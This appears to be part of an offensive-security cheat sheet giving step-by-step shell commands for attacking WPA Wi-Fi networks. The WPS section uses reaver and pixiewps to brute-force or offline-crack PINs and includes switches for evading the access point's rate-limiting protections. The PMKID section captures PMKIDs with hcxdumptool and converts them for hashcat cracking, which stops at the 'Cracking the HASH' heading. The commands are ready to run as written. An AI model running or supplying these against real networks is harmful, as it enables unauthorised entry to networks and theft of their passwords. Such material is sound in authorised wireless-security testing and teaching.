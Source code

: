 #### WPA WPS Attack

```powershell
airmon-ng start wlan0
airodump-ng mon0

# Install
apt-get -y install build-essential libpcap-dev aircrack-ng pixiewps
git clone https://github.com/t6x/reaver-wps-fork-t6x
apt-get install reaver

# Reaver integrated dumping tool (can also airodump-ng)
# Wash gives information about WPS being locked or not
# Locked WPS will have less success chances
wash -i mon0 

# Launch Reaver
reaver -i mon0 -b $AP_MAC -vv -S
reaver -i mon0 -c <Channel> -b $AP_MAC -p <PinCode> -vv -S
reaver -i mon0 -c 6 -b 00:23:69:48:33:95 -vv


# Now using pixiexps, you can crack PIN offline
pixiewps -e <pke> -r <pkr> -s <e-hash1> -z <e-hash2> -a <authkey> -n <e-nonce>
# Then, you can use the PIN with reaver to get to cleartext password
reaver -i <monitor interface> -b <bssid> -c <channel>  -p <PIN>


# Some manufacturers have implemented protections
# You can try different switches to bypass
# -L = Ignore locked state
# -N = Don't send NACK packets when errors are detected
# -d = delay X seconds between PIN attempts
# -T = set timeout period to X second (.5 means half second)
# -r = After X attemps, sleep for Y seconds
reaver -i mon0 -c 6 -b 00:23:69:48:33:95  -vv -L -N -d 15 -T .5 -r 3:15
```

> Message "WARNING: Detected AP rate limiting, waiting 315 seconds before re-trying" -> AP is protected Message "WARNING: Receive timeout occured" -> AP is too far

#### WPA PMKID Attack

```powershell
INTERFACE=$(ifconfig | grep wlp | cut -d":" -f1) # mon0

# PMKID capture
# Note: Based on the noise on the wifi channel it can take some time to receive the PMKID. 
# It can take a while to capture PKMID (several minutes++)
# We recommend running hcxdumptool up to 10 minutes before aborting.
# If an AP recieves our association request packet and supports sending 
# sudo hcxdumptool -i wlan0mon -o outfile.pcapng --enable_status=1
PMKID=$(sudo hcxdumptool -o test.pcapng -i $INTERFACE --enable_status  --filtermode=2)
echo $PMKID|grep 'FOUND PMKID' &> /dev/null
hcxpcaptool -z test.16800 test.pcapng

# Then convert the captured data to a suitable format for hashcat
# -E retrieve possible passwords from WiFi-traffic (additional, this list will include ESSIDs)
# -I retrieve identities from WiFi-traffic
# -U retrieve usernames from WiFi-traffic
# PMKID*MAC AP*MAC Station*ESSID
# 2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a
hcxpcaptool -E essidlist -I identitylist -U usernamelist -z test.16800 test.pcapng

# Cracking the HASH
```